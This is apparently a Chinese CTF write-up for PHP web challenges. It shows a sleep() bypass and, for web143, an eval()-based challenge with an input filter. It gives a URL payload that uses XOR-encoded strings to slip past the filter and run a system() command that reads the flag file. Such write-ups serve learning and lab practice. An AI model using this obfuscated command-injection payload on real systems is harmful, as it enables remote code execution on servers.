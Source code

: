 ```
    $v1 = (String)$_GET['v1'];
    if(is_numeric($v1)){
        $d = (int)($v1 * 0x36d * 0x36d * 0x36d * 0x36d * 0x36d);
        sleep($d);
        echo file_get_contents("flag.php");
    }
}
	
```

这道题目就是绕过sleep，直接赋值0即可

![image-20221006155124878](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210061551949.png?x-oss-process=hzy)

# web143



```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-18 12:48:14

*/

highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

在web141的基础上又过滤了`-`和`;`，那么v3开头和结尾的符号就可以变成`*`或`/`

```
?v1=1&v2=2&v3=*("%13%19%13%14%05%0d"^"%60%60%60%60%60%60")("%03%01%14%00%06%0c%01%07%02%10%08%10"^"%60%60%60%20%60%60%60%60%2c%60%60%60")?>
```
